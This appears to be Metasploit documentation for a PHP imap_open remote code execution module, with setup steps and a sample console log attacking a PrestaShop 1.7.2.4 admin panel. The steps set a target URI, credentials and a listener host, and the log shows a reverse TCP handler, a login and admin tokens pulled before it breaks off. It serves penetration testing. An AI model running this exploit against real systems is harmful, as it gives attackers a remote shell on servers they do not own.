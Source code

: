 ```
    }
    $str_errors = rtrim(trim($str_errors), ',');
  }
  if (!$mbox) {
    echo '<p>Errors: ' . ($str_errors);
  }
?>

  </body>
</html>
```

## Verification Steps

  1. Install a vulnerable application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/php_imap_open_rce```
  4. Do: ```set TARGETURI [URI]```
  5. Do: ```set USERNAME [username]```
  6. Do: ```set PASSWORD [password]```
  7. Do: ```set target [target]```
  8. Do: ```run```
  9. You should get a shell.

## Options

  **TARGETURI**

  The URI for the target.  This may change by target.  Default is ` `.
  Prestashop should be the admin URI, similar to `/admin2769gx8k3`.

## Scenarios

### PrestaShop 1.7.2.4 on Ubuntu 16.04.4 with PHP 7.0

  ```
  resource (presta.rb)> use exploit/linux/http/php_imap_open_rce
  resource (presta.rb)> set TARGETURI /admin2769gx8k3
  TARGETURI => /admin2769gx8k3
  resource (presta.rb)> set USERNAME ubuntu@none.com
  USERNAME => ubuntu@none.com
  resource (presta.rb)> set PASSWORD ubuntuubuntu
  PASSWORD => ubuntuubuntu
  resource (presta.rb)> set rhosts 1.1.1.1
  rhosts => 1.1.1.1
  resource (presta.rb)> set lhost 2.2.2.2
  lhost => 2.2.2.2
  resource (presta.rb)> set target 0
  target => 0
  resource (presta.rb)> set verbose true
  verbose => true
  resource (presta.rb)> exploit
  [*] Started reverse TCP handler on 2.2.2.2:4444 
  [*] Redirected to http://1.1.1.1/admin2769gx8k3/
  [*] Redirected to http://1.1.1.1/admin2769gx8k3/index.php?controller=AdminLogin&token=6dab1f7b4eea17d2b44a8929ead9df68
  [*] Token: 6dab1f7b4eea17d2b44a8929ead9df68 and Login Redirect: http://1.1.1.1/admin2769gx8k3/&token=09283f9efc45fc75eca3b8d5f1b1f92f
  [*] Logging in with ubuntu@none.com:ubuntuubuntu
  [*] Login JSON Response: {"hasErrors":false,"redirect":"http:\/\/1.1.1.1\/admin2769gx8k3\/index.php?controller=AdminDashboard&token=e324e8b387afb1874947db9b1ba411c8"}
  [+] Login Success, loading admin dashboard to pull tokens
  [*] Customer Threads Token: ec653c8bfc09754fc63aaa94101911dc
  ```